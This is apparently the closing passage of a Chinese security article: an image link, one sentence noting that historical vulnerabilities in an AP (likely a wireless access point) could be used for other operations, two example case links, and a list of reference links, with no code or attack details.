[](https://xzfile.aliyuncs.com/media/upload/picture/20240303112234-46ce317e-d90d-1.png)  
或是利用AP历史漏洞去执行某些别的操作，下面列举了两个案例  
[https://www.sohu.com/a/661410953\_100113888](https://www.sohu.com/a/661410953_100113888)  
[https://cn-sec.com/archives/486272.html](https://cn-sec.com/archives/486272.html)

参考:  
[https://www.51cto.com/article/708053.html](https://www.51cto.com/article/708053.html)  
[https://www.cnblogs.com/hahaa/p/15393324.html](https://www.cnblogs.com/hahaa/p/15393324.html)
